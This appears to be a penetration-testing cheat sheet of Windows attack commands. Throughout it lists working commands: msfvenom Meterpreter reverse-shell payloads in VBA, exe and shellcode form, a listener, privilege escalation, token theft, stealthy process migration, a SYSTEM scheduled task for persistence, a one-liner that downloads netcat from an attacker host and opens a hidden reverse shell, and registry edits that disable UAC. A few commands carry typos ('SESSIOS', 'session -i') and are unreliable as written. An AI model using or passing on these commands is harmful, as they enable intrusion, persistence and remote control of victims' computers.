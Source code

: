 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup administrators user /add

restarting service:
    
    sc stop dllsvc & sc start dllsvc

command for compile on kali linux:

    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f

create a meterpreter shellcode for single line good for hide in the another program

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f c | tr -d '\n' | sed 's/ //g'

runas.exe

    net users
    runas /user:usernameofvictim "cmd.exe"
    runas /user:Machinename\usernameofvictim "cmd.exe"

Powershell history file in environment

    cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

drop nc.exe (Netcat) Attacker machine and executes as a background command:

    powershell -Command "$out = Join-Path $env:Temp 'nc.exe'; Invoke-WebRequest -Uri 'http://192.168.1.10/nc.exe' -OutFile $out; Start-Process $out -ArgumentList '192.168.1.65 55522 -e powershell' -WindowStyle Hidden"

disable UAC with PowerShell command 

    Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0


DisableUAC.reg

        Windows Registry Editor Version 5.00

        [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System]
        "ConsentPromptBehaviorAdmin"=dword:00000000
